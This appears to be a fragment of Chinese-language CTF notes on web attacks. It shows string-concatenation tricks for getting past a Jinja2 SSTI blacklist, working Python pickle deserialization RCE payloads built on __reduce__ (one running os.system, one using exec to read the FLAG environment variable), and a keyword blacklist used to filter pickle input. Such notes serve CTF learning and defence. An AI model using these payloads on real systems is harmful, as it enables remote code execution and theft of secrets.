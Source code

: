 #### 绕过

- 有黑名单过滤

**字符串拼接**

```jinja2
'o'+'s'
'__imp'+'ort__'
'/fl'+'ag'
```



### 反序列化漏洞

**Pickel序列化及反序列化**

```Python
class Pet:
    def __init__(self, name, species) -> None:
        self.name = name
        self.species = species

pet = Pet(name, species)

# 序列化
serialized_pet = base64.b64encode(pickle.dumps(pet)).decode("utf-8")

# 反序列化
pet_data = base64.b64decode(serialized_pet)
pet = pickle.loads(pet_data)
```

RCE payload构造

```Python
class exp:
    # # __reduce__() 序列化时返回一个元组(可调用函数和参数元组)，反序列化时参数传递调用该函数
    def __reduce__(self): 
        return (os.system, ("whoami",))

malicious_payload = pickle.dumps(exp())
encoded_payload = base64.b64encode(malicious_payload).decode('utf-8')
```

无回显时考虑替换全局变量，在网页中的某变量中显示信息

```Python
class exp:
    def __reduce__(self):
        return (exec, ('import os; global store; store = os.environ["FLAG"]',))
# python在局部改变全局变量时需要声明 global
```

**过滤**

```python
pickle_data = base64.b64decode(data)
for i in {"os","system","eval","setstate","globals",'exec','__builtins__','template', 'render','\\','compile','requests','exit','pickle',"class","mro","flask","sys","base","init","config","session"}:
```
